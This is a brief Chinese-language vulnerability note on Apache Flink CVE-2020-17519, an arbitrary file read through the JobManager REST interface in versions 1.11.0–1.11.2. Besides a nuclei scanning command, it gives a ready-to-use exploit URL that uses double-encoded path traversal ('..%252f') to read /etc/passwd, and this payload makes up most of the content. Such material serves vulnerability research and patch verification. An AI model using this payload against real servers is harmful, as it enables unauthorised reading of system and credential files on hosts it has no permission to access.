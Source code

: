 ## 漏洞概述
Apache Flink 1.11.0中引入的一个更改，允许攻击者通过JobManager进程的REST接口读取JobManager本地文件系统上的任何文件。

## 影响范围
```http
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## POC
```bash
nuclei.exe -tags apache -t cves/ -stats -u http://test.com:8081
```

## EXP

```http
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

## 参考链接

[CVE-2020-17519 & CVE-2020-17518 分析](https://xz.aliyun.com/t/8993?page=1)